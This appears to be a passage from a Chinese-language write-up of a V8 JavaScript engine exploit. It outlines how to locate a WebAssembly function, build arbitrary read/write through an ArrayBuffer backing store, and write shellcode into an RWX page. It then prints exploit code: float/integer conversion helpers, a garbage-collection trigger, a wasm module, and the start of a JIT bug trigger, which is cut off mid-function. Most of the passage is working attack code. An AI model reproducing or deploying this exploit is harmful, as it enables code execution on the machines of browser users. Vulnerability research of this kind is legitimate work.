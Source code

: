 ```javascript
```

后面就可以通过

（1）根据mark查找wasm_function对象的地址

（2）根据data_buf的大小查找data_buf->backing_store，用于构造任意读写原语

（3）根据wasm_function–>shared_info–>WasmExportedFunctionData（data）–>instance+0xe8 找到rwx的区域，将shellcode写入该区域即可。



exp 代码：

```javascript
var buf = new ArrayBuffer(16);
var float64 = new Float64Array(buf);
var Uint32 = new Uint32Array(buf);

function f2i(f)
{
	float64[0] = f;
	let tmp = Array.from(Uint32);
	return tmp[1] * 0x100000000 + tmp[0]; 
}

function i2f(i)
{
	let tmp = [];
	tmp[0] = parseInt(i % 0x100000000);
	tmp[1] = parseInt((i-tmp[0]) / 0x100000000);
	Uint32.set(tmp);
	return float64[0];
}

function hex(i)
{
	return i.toString(16).padStart(16, "0");
}


function gc() {
    for (let i = 0; i < 100; i++) {
        new ArrayBuffer(0x100000);
    }
}

var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);

var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule, {});
var wasm_function = wasmInstance.exports.main;

var obj = [];
var data_buf;
var float_array;

function foo(flag)
{
	float_array = [1.0,1.1,1.2,1.3,1.4,1.5,1.6,1.7,1.8];
	let x = (flag == "foo") ? Number.MAX_SAFE_INTEGER+5:Number.MAX_SAFE_INTEGER+1;
	let tmp1 = x+1+1;
	let idx = tmp1 - (Number.MAX_SAFE_INTEGER+1);
```